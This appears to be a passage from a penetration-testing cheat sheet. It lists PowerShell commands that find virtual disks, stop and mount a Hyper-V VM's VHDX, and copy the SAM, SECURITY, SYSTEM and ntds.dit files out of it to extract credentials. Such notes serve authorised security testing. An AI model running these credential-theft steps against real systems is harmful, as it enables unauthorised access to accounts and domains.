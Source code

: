 #### Open the pcap in prefered tool such as WireShark

## Virtual Machines
#### Check for virtual disks on the system
```
Get-Childitem -Path C:\Users\* -Include *.vhdx, *.vhd, *.vmdk, *.OVF, *.OVA, *.VDI -Recurse -ErrorAction SilentlyContinue
Get-Childitem -Path C:\ -Include *.vhdx, *.vhd, *.vmdk, *.OVF, *.OVA, *.VDI -Recurse -ErrorAction SilentlyContinue
```

### HyperV cmdlets
#### List VM's
```
Get-VM
```

#### Stop VM
```
Stop-VM -Name <VM NAME>
```

#### Get the VHDX location of VM
```
Get-VM -VMName <VM NAME> | Select-object VMId | Get-VHD
Get-VM -VMName <VM NAME> | Select-object VMId | Get-VHD | Select-Object Path
```

#### Mount the VHDX
```
Mount-VHD -Path "<PATH TO VHDX>" -PassThru
Get-Disk | Get-Partition | Get-Volume
```

#### Copy senstive files and extract credentials
- From SAM or ntds.dit example.
```
copy-item D:\Windows\system32\config\SAM C:\users\public\
copy-item D:\Windows\system32\config\SECURITY C:\users\public\
copy-item D:\Windows\system32\config\SYSTEM C:\users\public\
copy-item D:\Windows\ntds\ntds.dit C:\users\public\
```

#### Unmount disk
```
Dismount-VHD -Path "<PATH TO VHDX>"
```

#### Start the VM
```
Start-VM -Name <VM NAME>
```
